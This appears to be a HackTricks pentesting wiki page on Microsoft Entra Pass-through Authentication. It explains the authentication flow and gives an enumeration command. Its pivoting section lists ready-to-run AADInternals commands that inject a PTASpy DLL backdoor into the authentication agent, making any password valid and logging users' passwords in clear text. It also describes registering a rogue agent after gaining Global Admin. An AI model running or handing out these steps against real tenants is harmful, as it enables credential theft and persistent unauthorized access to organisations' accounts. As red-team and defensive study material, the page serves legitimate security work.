 # Az - PTA - Pass-through Authentication

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-pta) Microsoft Entra pass-through authentication allows your users to **sign in to both on-premises and cloud-based applications using the same passwords**. This feature provides your users a better experience - one less password to remember, and reduces IT helpdesk costs because your users are less likely to forget how to sign in. When users sign in using Microsoft Entra ID, this feature validates users' passwords directly against your on-premises Active Directory.

In PTA **identities** are **synchronized** but **passwords aren't** like in PHS.

The authentication is validated in the on-prem AD and the communication with cloud is done by an **authentication agent** running in an **on-prem server** (it does't need to be on the on-prem DC).

### Authentication flow

<figure><img src="../../../../images/image (92).png" alt=""><figcaption></figcaption></figure>

1. To **login** the user is redirected to **Azure AD**, where he sends the **username** and **password**
2. The **credentials** are **encrypted** and set in a **queue** in Azure AD
3. The **on-prem authentication agent** gathers the **credentials** from the queue and **decrypts** them. This agent is called **"Pass-through authentication agent"** or **PTA agent.**
4. The **agent** **validates** the creds against the **on-prem AD** and sends the **response** **back** to Azure AD which, if the response is positive, **completes the login** of the user.

> [!WARNING]
> If an attacker **compromises** the **PTA** he can **see** the all **credentials** from the queue (in **clear-text**).\
> He can also **validate any credentials** to the AzureAD (similar attack to Skeleton key).

### Enumeration

From Entra ID:

```bash
az rest --url 'https://graph.microsoft.com/beta/onPremisesPublishingProfiles/authentication/agentGroups?$expand=agents'
# Example response:
{
  "@odata.context": "https://graph.microsoft.com/beta/$metadata#onPremisesPublishingProfiles('authentication')/agentGroups(agents())",
  "value": [
    {
      "agents": [
        {
          "externalIp": "20.121.45.57",
          "id": "4a000eb4-9a02-49e4-b67f-f9b101f8f14c",
          "machineName": "ConnectSync.hacktricks-con.azure",
          "status": "active",
          "supportedPublishingTypes": [
            "authentication"
          ]
        }
      ],
      "displayName": "Default group for Pass-through Authentication",
      "id": "d372d40f-3f81-4824-8b9e-6028182db58e",
      "isDefault": true,
      "publishingType": "authentication"
    }
  ]
}
```

Check if the agent is running in the on-prem server:

```bash
Get-Service -Name "AzureADConnectAuthenticationAgent"
```

## Pivoting

If you have **admin** access to the **Azure AD Connect server** with the **PTA** **agent** running, you can use the **AADInternals** module to **insert a backdoor** that will **validate ALL the passwords** introduced (so all passwords will be valid for authentication):

```bash
Install-Module AADInternals -RequiredVersion 0.9.3
Import-Module AADInternals
Install-AADIntPTASpy # Install the backdoor, it'll save all the passwords in a file
Get-AADIntPTASpyLog -DecodePasswords # Read the file or use this to read the passwords in clear-text

Remove-AADIntPTASpy # Remove the backdoor
```

> [!NOTE]
> If the **installation fails**, this is probably due to missing [Microsoft Visual C++ 2015 Redistributables](https://download.microsoft.com/download/6/A/A/6AA4EDFF-645B-48C5-81CC-ED5963AEAD48/vc_redist.x64.exe).


This backdoor will:

- Create a hidden folder `C:\PTASpy`
- Copy a `PTASpy.dll` to `C:\PTASpy`
- Injects `PTASpy.dll` to `AzureADConnectAuthenticationAgentService` process

> [!NOTE]
> When the AzureADConnectAuthenticationAgent service is restarted, PTASpy is “unloaded” and must be re-installed.

> [!CAUTION]
> After getting **GA privileges** on the cloud, it's possible to **register a new PTA agent** and can **repeat** the **previous** steps to **authenticate using any password** and also, **get the passwords in clear-text.**

### Seamless SSO

It's possible to use Seamless SSO with PTA, which is vulnerable to other abuses. Check it in:

{{#ref}}
az-seamless-sso.md
{{#endref}}

## References

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta)
- [https://aadinternals.com/post/on-prem_admin/#pass-through-authentication](https://aadinternals.com/post/on-prem_admin/#pass-through-authentication)

{{#include ../../../banners/hacktricks-training.md}}

